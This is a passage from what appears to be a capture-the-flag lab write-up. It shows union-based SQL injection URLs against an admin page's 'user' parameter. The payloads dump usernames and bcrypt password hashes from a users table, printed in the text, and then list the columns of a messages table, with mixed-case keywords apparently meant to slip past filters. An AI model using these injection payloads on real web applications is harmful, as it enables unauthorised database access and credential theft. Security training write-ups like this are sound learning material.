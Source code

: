 Time to view everything.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# the entire creds in the user table.

http://10.10.180.141/admin?user=-1 UNION SELECT NULL,group_CONCAT(id,"~",username,"~",password),NULL,NULL fRoM users--

1~system~$2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW,2~michael~$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q,3~jake~$2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG,4~dking~$2b$10$03QES9tj0O6mQTN0hqLi1u17z//RnvQpeJs3nuGgop1wSJD9TWqmy
```
{% endcode %}

<figure><img src=".gitbook/assets/image (227).png" alt=""><figcaption></figcaption></figure>

SO the passwords were unable to be cracked, so we have to check other tables. Lets check the "messages" table.

{% code overflow="wrap" lineNumbers="true" %}
```
# columns in the [messages] Table.

http://10.10.180.141/admin?user=-1%20UNION%20SELECT%20NULL,gRoUp_cOncaT(0x7c,column_name,0x7c),NULL,NULL%20fRoM%20information_schema.columns%20WHERE%20table_name=%22messages%22--

# there are 5 columns here.
|id|,|user_from|,|user_to|,|message_content|,|is_read| 
```
{% endcode %}

<figure><img src=".gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>
